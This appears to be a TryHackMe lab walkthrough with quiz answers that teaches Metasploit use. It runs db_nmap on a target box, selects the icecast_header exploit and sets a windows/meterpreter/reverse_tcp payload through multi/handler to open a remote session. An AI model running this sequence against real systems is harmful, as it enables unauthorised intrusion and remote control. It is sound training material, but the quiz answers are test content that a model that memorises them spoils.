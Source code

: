 Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!

As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service. 


*Note, Metasploit does support different types
of port scans from within the auxiliary modules. Metasploit
can also import other scans from nmap and Nessus just to name a few.  

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command 'db_nmap -sV BOX-IP'

No answer needed
What service does nmap identify running on port 135?

msrpc
Let's go ahead and see what information we have collected in the database. Try typing the command 'hosts' into the msfconsole now.

No answer needed
How about something else from the database, try the command 'services' now.

No answer needed
One last thing, try the command 'vulns' now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully. 

No answer needed
Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type 'use' followed by a unique string found within only the target exploit. For example, try this out now with the following command 'use icecast'. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start

exploit/windows/http/icecast_header
While that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command 'search multi/handler'.

Go ahead and run the command 'use NUMBER_NEXT_TO exploit/multi/handler` wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.

What is the name of the column on the far left side of the console that shows up next to 'Name'?

#
Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results. 

No answer needed
Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

No answer needed
Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

No answer needed
One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.

No answer needed
Once you're set those variables correctly, run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.

No answer needed
Once we've started this, we can check all of the jobs running on the system by running the command `jobs`

No answer needed
After we've established our connection in the next task, we can list all of our sessions using the command `sessions`. Similarly, we can interact with a target session using the command `sessions -i SESSION_NUMBER`

No answer needed
